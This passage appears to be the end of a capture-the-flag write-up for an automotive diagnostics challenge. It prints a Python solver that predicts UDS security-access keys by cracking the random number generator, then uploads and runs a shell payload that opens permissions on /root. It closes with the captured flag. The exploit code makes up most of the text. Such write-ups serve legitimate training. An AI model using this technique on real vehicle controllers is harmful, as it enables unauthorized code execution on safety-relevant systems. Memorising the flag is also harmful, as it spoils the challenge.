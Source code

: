```python

    def recvAll():
        while True:
            sendAndRecv([0x30, 0x00, 0x00, 0x00]) # ISO-TP, for continues recv
            for i in range(10):
                data = bus.recv(timeout=0.1)
                if data:
                    print(data)
                else:
                    return

    def calcKey():
        rc = RandCrack()
        for i in range(624):
            seedBA = sendAndRecv([0x02, 0x27, 0x05]).data[3:] # session 0x5
            rc.submit(int.from_bytes(seedBA, byteorder='big'))
        return rc.predict_getrandbits(32)

    # security access level5
    key = calcKey()
    keyBytes = struct.pack('>I', key)
    sendAndRecv([0x06, 0x27, 0x06] + [int(hex(b),16) for b in keyBytes])
    recvAll()

    # request download
    # size, address -> address, size
    sendAndRecv([0x02, 0x10, 0x02])
    sendAndRecv([0x10, 0x07, 0x34, 0x82, 0x13, 0x40, 0x00, 0x00])
    sendAndRecv([0x21, 0x2d])

    # transfer data
    # payload = data + md5 hash
    # data: b'#!/bin/ash\nchmod -R 777 /root'
    sendAndRecv([0x10, 0x2f, 0x36, 0x01, 0x23, 0x21, 0x2F, 0x62])
    sendAndRecv([0x21, 0x69, 0x6E, 0x2F, 0x61, 0x73, 0x68, 0x0A])
    sendAndRecv([0x22, 0x63, 0x68, 0x6D, 0x6F, 0x64, 0x20, 0x2D])
    sendAndRecv([0x23, 0x52, 0x20, 0x37, 0x37, 0x37, 0x20, 0x2F])
    sendAndRecv([0x24, 0x72, 0x6F, 0x6F, 0x74, 0xbd, 0x33, 0x64])
    sendAndRecv([0x25, 0x52, 0x58, 0xa9, 0xf7, 0x08, 0xde, 0x30])
    sendAndRecv([0x26, 0xc5, 0xad, 0x73, 0x30, 0x82, 0xd0])

    # routine control
    # to create a file with the content of the payload and execute it
    sendAndRecv([0x04, 0x31, 0x01, 0xa5, 0xa5])


if __name__ == "__main__":
    solver()
```

After running the script, the flag file was in the /root/flags/root.flag path.
`FLAG: bh{its_as_easy_as_flashing_your_own_firmware}`
